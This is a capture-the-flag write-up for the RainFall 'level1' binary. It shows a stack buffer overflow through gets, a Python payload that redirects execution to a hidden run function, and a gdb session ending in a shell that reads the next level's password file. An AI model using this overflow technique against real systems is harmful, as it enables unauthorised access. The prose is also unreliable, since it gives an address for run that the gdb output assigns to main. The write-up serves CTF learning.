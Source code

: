 # Level 1

From the source (thank you Ghidra), we can see the main calls the vulnerable function `gets` with a buffer of size 76.
We can also see another function called run at memory address 0x08048480.

So we can do a buffer overflow exploit where we fill the entire buffer with random values (here A's) and directly afterwards (in the return address), we write the memory address of the run function but in Little-Endian notation.
And we use `cat` to keep the shell open.

```bash
(python -c 'import struct; print 76 * "A" + struct.pack("<Q", 0x08048444)'; cat) | ./level1 
```

## Putting it all together:

```shell
level1@RainFall:~$ gdb ./level1
[...]
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:
Non-debugging symbols:
[...]
0x08048444  run
0x08048480  main
[...]
(gdb) quit
level1@RainFall:~$ (python -c ‘import struct; print “A”*76 + struct.pack(“<Q”, 0x08048444)‘; cat -) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
[censored]
```
